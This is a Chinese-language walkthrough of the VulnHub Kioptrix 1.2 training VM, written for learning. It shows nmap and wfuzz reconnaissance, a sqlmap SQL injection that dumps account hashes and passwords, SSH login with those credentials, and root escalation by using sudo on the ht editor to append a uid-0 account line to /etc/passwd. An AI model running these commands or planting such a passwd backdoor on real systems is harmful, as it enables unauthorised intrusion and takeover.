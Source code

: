 # Kioptrix3-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

**Description**

It's been a while since the last Kioptrix VM challenge. Life keeps getting the way of these things you know.

After the seeing the number of downloads for the last two, and the numerous videos showing ways to beat these challenges. I felt that 1.2 (or just level 3) needed to come out. Thank you to all that downloaded and played the first two. And thank you to the ones that took the time to produce video solutions of them. Greatly appreciated.

As with the other two, this challenge is geared towards the beginner. It is however different. Added a few more steps and a new skill set is required. Still being the realm of the beginner I must add. The same as the others, there’s more then one way to “pwn” this one. There’s easy and not so easy. Remember… the sense of “easy” or “difficult” is always relative to ones own skill level. I never said these things were exceptionally hard or difficult, but we all need to start somewhere. And let me tell you, making these vulnerable VMs is not as easy as it looks…

Important thing with this challenge. Once you find the IP (DHCP Client) edit your hosts file and point it to kioptrix3.com

Under Windows, you would edit C:\Windows\System32\drivers\etc\hosts to look something like this:

```
# localhost name resolution is handled within DNS itself.
#   127.0.0.1 localhost
#   ::1 localhost127.0.0.1 static3.cdn.ubi.com

192.168.1.102 kioptrix3.com
```

Under Linux that would be /etc/hosts

There’s a web application involved, so to have everything nice and properly displayed you really need to this.

Hope you enjoy Kioptrix VM Level 1.2 challenge.

452 Megs

MD5 Hash : d324ffadd8e3efc1f96447eec51901f2

Have fun

Source: http://www.kioptrix.com/blog/?p=358

**知识点**
- SQL 注入
- ht 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.146` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.146
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/2.png)

SSH 和 web,从 web 先入手,先按照要求修改 hosts 文件,访问 web 看看
```bash
echo "192.168.141.146 kioptrix3.com" >> /etc/hosts
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/3.png)

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/4.png)

看上去是用 lotusCMS 搭建的,先目录扫描看下
```
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://kioptrix3.com/FUZZ | grep 301
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/5.png)

有个 phpmyadmin,访问看看

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/6.png)

2.11.3 版本有个 CVE-2009-1151,实际测试并不能利用成功,没办法了,从其他地方入手吧

---

# 中期-漏洞利用

注意到主页下面有个链接指向 `http://kioptrix3.com/gallery/`

发现这里可以进行排序,对 id 参数测试 SQL 注入

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/7.png)

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/8.png)

这里可能存在 SQL 注入,直接 Sqlmap 跑起来
```
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1%27 --current-db
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1%27 -D gallery --tables
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1%27 -D gallery -T dev_accounts --dump
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/9.png)

```
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
```

可以看到跑出2个账号组合,测试了一下，不能登录 web,想到之前扫出的 SSH,试了下登录成功,2个都可以登录

---

# 后期-提权

dreg 账号实在是没什么可利用的，loneferret 账号下有一些利用的点

```
sudo -l
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/10.png)

ht 是一个文本编辑器,尝试用它来提权
```
sudo ht /etc/passwd
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/11.png)

提示我需要设置 xtrem-color
```
export TERM=xterm-color
sudo ht /etc/passwd
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/12.png)

实际上这里我是一脸懵逼的,这玩意咋整啊

按 F3,打开文件,输入 /etc/passwd ,回车

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/13.png)

最末尾加上
```
test:sXuCKi7k3Xh/s:0:0::/root:/bin/bash
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/14.png)

按 F10,退出,记得保存
```
su test
toor
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/15.png)

提权成功,感谢 Kioptrix Team 制作靶机
